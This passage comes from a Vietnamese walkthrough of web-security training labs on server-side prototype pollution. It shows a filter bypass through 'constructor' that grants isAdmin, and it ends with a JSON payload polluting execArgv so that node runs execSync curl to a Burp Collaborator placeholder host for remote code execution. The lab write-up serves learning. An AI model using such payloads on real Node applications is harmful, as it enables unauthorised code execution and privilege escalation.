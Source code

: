 Như vậy mình có thể đã **prototype polluted**

## LAB08 - Bypassing flawed input filters for server-side prototype pollution 

Ở lab này sau khi đã thử inject `status` bằng `__proto__` nhưng ko ảnh hưởng, nhưng khi inject bằng **constructor** thì có hiệu quả:

![image](https://hackmd.io/_uploads/SkkoBmYsex.png)

Nhưng bài này, cần phải leo quyền thành `admin`. 

![image](https://hackmd.io/_uploads/rksnH7tole.png)

Chuyển sang dạng Raw 

![image](https://hackmd.io/_uploads/ByX0r7Yigg.png)

Nó có sự thay đổi -> thay đổi thành key `isAdmin`

![image](https://hackmd.io/_uploads/HkjgImKsxg.png)

Truy cập được vào `Admin Panel`

![image](https://hackmd.io/_uploads/HkEfLXYiex.png)

## LAB09 - RCE via server-side prototype pollution 

Ở lab mình xác định prototype pollution qua json spaces

![image](https://hackmd.io/_uploads/HyhYJNKoee.png)

Đổi sang Raw 

![image](https://hackmd.io/_uploads/Hk59kNFsee.png)

Quan sát trong Admin panel thì nó có `maintenance job` 

![image](https://hackmd.io/_uploads/rkd1gVtsxl.png)

Khi click và sau đó quan sát: 

![image](https://hackmd.io/_uploads/SkvQgEKsgg.png)

Nó thực hiện để `db-cleanup` và `fs-cleanup`

Suy đoán thì khi ấn nút thì nó spawn node child process. Mình cố gắng pollute prototype thông qua thuộc tính `execArgv` sau đó thêm `--eval` để chạy child process. 

Dùng sink `execSync()`, để tương tác với Burp Collaborator server. 

```json
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```
